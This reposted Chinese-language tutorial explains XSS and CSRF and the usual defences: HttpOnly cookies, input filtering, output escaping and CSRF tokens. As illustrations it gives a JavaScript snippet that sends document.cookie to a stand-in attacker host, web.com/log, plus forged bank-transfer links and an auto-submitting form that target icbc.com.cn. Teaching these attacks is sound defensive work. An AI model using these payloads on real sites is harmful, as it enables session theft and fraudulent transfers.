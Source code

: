```yaml
---
title: 'Web安全防范(XSS、CSRF)' 
date: 2018-12-16 2:30:10
hidden: true
slug: 2zgipqbdc1m
categories: [reprint]
---
```


{{< raw >}}

                    
<blockquote>注：以下文章是我从公众号“码农翻身”中的<a href="https://mp.weixin.qq.com/s?__biz=MzAxOTc0NzExNg==&amp;mid=2665514169&amp;idx=1&amp;sn=f6f8dffdb29c4075d094dd7203189e5b&amp;chksm=80d67cfab7a1f5ecb7daf768a0364879c0d26483fd2e595d67bcf82822c5fbb9525323956d51&amp;scene=21#wechat_redirect" rel="nofollow noreferrer" target="_blank">《黑客三兄弟》</a>抽取总结出来的，这个公众号采用说故事的方式讲解技术，清晰通俗易懂，能学到很多知识。</blockquote>
<h2 id="articleHeader0">XSS(Cross Site Scripting)</h2>
<p>利用别人的cookie，可以冒充真实的用户，在颁发cookie的那个网站中为所欲为。<br>因为浏览器的同源策略，所以不能获取到其他网站的cookie，但通过把JavaScript代码注入到目标页面中，就能绕过同源策略，比如在HTML的&lt;input&gt;中注入JavaScript代码，等到数据提交到服务器端，会保存下来，下次展示页面的时候，就会执行这段代码。<br>举例有这样一个网站，可以让你对某个文章输入评论：</p>
<p><span class="img-wrap"><img data-src="/img/bV2NZZ?w=1652&amp;h=272" src="https://static.alili.tech/img/bV2NZZ?w=1652&amp;h=272" alt="图片描述" title="图片描述" style="cursor: pointer; display: inline;"></span></p>
<p>等到再次有人访问这个页面的时候，就可以把那个人的cookie显示出来了！<br>当然不能直接把用户的cookie直接alert出来，而同源策略严格限制了JavaScript的跨域访问，但同源策略并不限制&lt;img&gt;这样的标签从别的网站（跨域）去下载图片，所以可以通过创建一个不可见的&lt;img&gt;，通过这个&lt;img&gt;发cookie到自己的服务器。<br>直接上代码：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="var img=document.createElement(&quot;img&quot;);
img.src=&quot;http://web.com/log?&quot;+escape(document.cookie);
document.body.appendChild(img);" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs javascript"><code><span class="hljs-keyword">var</span> img=<span class="hljs-built_in">document</span>.createElement(<span class="hljs-string">"img"</span>);
img.src=<span class="hljs-string">"http://web.com/log?"</span>+<span class="hljs-built_in">escape</span>(<span class="hljs-built_in">document</span>.cookie);
<span class="hljs-built_in">document</span>.body.appendChild(img);</code></pre>
<p>只要这段代码被执行，用户的cookie就会发送到别人的服务器上("http://web.com/log")。再将这段代码封装成一个js文件(web.js)。</p>
<p><span class="img-wrap"><img data-src="/img/bV2NZ2?w=1646&amp;h=264" src="https://static.alili.tech/img/bV2NZ2?w=1646&amp;h=264" alt="图片描述" title="图片描述" style="cursor: pointer; display: inline;"></span></p>
<p>这样就可以拿到用户的cookie。<br>这种窃取用户的cookie的方法叫做XSS。<br>注：按照XSS的分类方法，上面介绍的叫做存储性XSS，危害最大。还有反射型XSS，基于DOM的XSS，本文不再展开。</p>
<p><strong>防范措施：</strong></p>
<p>在网站的Cookie加上HttpOnly属性：<br>Set-Cookie: JSESSIONID=xxxxxx;Path=/;Domain=book.com;HttpOnly<br>这样浏览器就禁止JavaScript的读取了。</p>
<p>当然通过页面注入JavaScript代码，那就可以不只是借Cookie了。例如可以用这个JS代码画一个假的登录框，覆盖到真的登录框之上，让用户信以为真，这样就可以偷到真实的用户名和密码了。或者通过JavaScript构造GET,POST请求，可以模拟用户在该网站做点手脚，删点什么东西，从一个账户往另一个账户转账，都是可以的。</p>
<p><strong>防范措施：</strong></p>
<p>将用户输入的特殊字符例如&lt;,&gt;过滤掉，这样&lt;script&gt;可能会变成'script'被存到数据库里。<br>另一方面还可以对输出进行编码/转义操作，例如把<code>&lt;</code>变成<code>&amp;lt;</code>，把<code>&gt;</code>变成<code>&amp;gt;</code>，浏览器收到以后，就会认为是数据，把&lt;script&gt;作为字符串给显示出来，而不是执行后面的代码！</p>
<h2 id="articleHeader1">CSRF(Cross Site Request Forgery)</h2>
<p>一个用户的会话cookie在浏览器没有关闭的时候，是不会被删除的，所以可以换个思路，不再去偷这个cookie了，相反，可以在web.com中构造一个领奖页面，里面包含一个连接，让用户去惦记，例如：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="恭喜你获得了iPhoneX一台，快来<a href=&quot;www.icbc.com.cn/transfer?toBankId=黑客的账户&amp;money=金额&quot;>领取吧</a>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs xml"><code style="word-break: break-word; white-space: initial;">恭喜你获得了iPhoneX一台，快来<span class="hljs-tag">&lt;<span class="hljs-name">a</span> <span class="hljs-attr">href</span>=<span class="hljs-string">"www.icbc.com.cn/transfer?toBankId=黑客的账户&amp;money=金额"</span>&gt;</span>领取吧<span class="hljs-tag">&lt;/<span class="hljs-name">a</span>&gt;</span></code></pre>
<p>这得先知道icbc.com.cn的转账操作的url和参数名称。<br>如果这个用户恰好登录了icbc.com，那他的cookie还在，当他禁不住诱惑，点了这个链接后，一个转账操作就神不知鬼不觉的发生了。<br>注：为了方便展示，本文举了一个非常简单的案例，银行实际的转账操作要远远比文章描述安全的多。<br>除了让用户点击外，还可以使用img标签<code>&lt;img src="www.icbc.com.cn/transfer?toAccountID=黑客三兄弟的账户&amp;money=金额"&gt;</code>，只要用户打开了这个页面，不点击任何东西，就会发生转账操作。<br>所以现在有很多邮箱默认是不显示邮件中的图片的。<br>如果icbc.com.cn的转账操作需要form表单，是POST操作，那么可以自己创建一个表单，放到一个不可见的iframe中，用户只要一访问，就用JavaScript自动提交。</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<form action=&quot;http://www.icbc.com.cn/transfer&quot; method=&quot;POST&quot;>
    <input type=&quot;text&quot; name=&quot;toAccountID&quot; value=&quot;黑客的账号&quot;/>
    <input type=&quot;text&quot; name=&quot;money&quot; value=&quot;金额&quot;/>
</form>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs accesslog"><code>&lt;form action=<span class="hljs-string">"http://www.icbc.com.cn/transfer"</span> method=<span class="hljs-string">"<span class="hljs-keyword">POST</span>"</span>&gt;
    &lt;input type=<span class="hljs-string">"text"</span> name=<span class="hljs-string">"toAccountID"</span> value=<span class="hljs-string">"黑客的账号"</span>/&gt;
    &lt;input type=<span class="hljs-string">"text"</span> name=<span class="hljs-string">"money"</span> value=<span class="hljs-string">"金额"</span>/&gt;
&lt;/form&gt;</code></pre>
<p>总之，只要用户在访问icbc.com.cn的时候，访问了web.com，就极有可能中招，这种方式，只是利用了一下合法的Cookie，在服务器看来，发出的这个请求是一次合法的请求。这个就叫跨站请求伪造，Cross Site Request Forgest (CSRF)。</p>
<p><strong>防范措施：</strong></p>
<p>1.用户在icbc.com.cn转账，显示转账的form，除了常用的字段之外，额外添加一个token:</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<form action=&quot;http://www.icbc.com.cn/transfer&quot; method=&quot;POST&quot;>
    <input type=&quot;hidden&quot; name=&quot;token&quot; value=&quot;axsa;dsww98725678836554xskdhf82735672&quot;/>
    <input type=&quot;text&quot; name=&quot;toAccountID&quot; value=&quot;黑客的账号&quot;/>
    <input type=&quot;text&quot; name=&quot;money&quot; value=&quot;金额&quot;/>
</form>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs accesslog"><code>&lt;form action=<span class="hljs-string">"http://www.icbc.com.cn/transfer"</span> method=<span class="hljs-string">"<span class="hljs-keyword">POST</span>"</span>&gt;
    &lt;input type=<span class="hljs-string">"hidden"</span> name=<span class="hljs-string">"token"</span> value=<span class="hljs-string">"axsa;dsww98725678836554xskdhf82735672"</span>/&gt;
    &lt;input type=<span class="hljs-string">"text"</span> name=<span class="hljs-string">"toAccountID"</span> value=<span class="hljs-string">"黑客的账号"</span>/&gt;
    &lt;input type=<span class="hljs-string">"text"</span> name=<span class="hljs-string">"money"</span> value=<span class="hljs-string">"金额"</span>/&gt;
&lt;/form&gt;</code></pre>
<p>这个token是icbc.com服务器端生成的，是一个随机的数字。</p>
<p>2.用户的转账数据发送的服务器端，icbc.com就会检查从浏览器发过来的数据中有没有token，并且这个token的值是不是和服务器端保存的相等，如果相等，就继续执行转账操作，如果不相等，那这次POST请求肯定是伪造的。</p>
<p>这个token是服务器端生成的，无法伪造，CSRF的手段也不行了。</p>

                
{{< /raw >}}

# 版权声明
本文资源来源互联网，仅供学习研究使用，版权归该资源的合法拥有者所有，

本文仅用于学习、研究和交流目的。转载请注明出处、完整链接以及原作者。

原作者若认为本站侵犯了您的版权，请联系我们，我们会立即删除！

## 原文标题
Web安全防范(XSS、CSRF)

## 原文链接
[https://segmentfault.com/a/1190000013022789](https://segmentfault.com/a/1190000013022789)


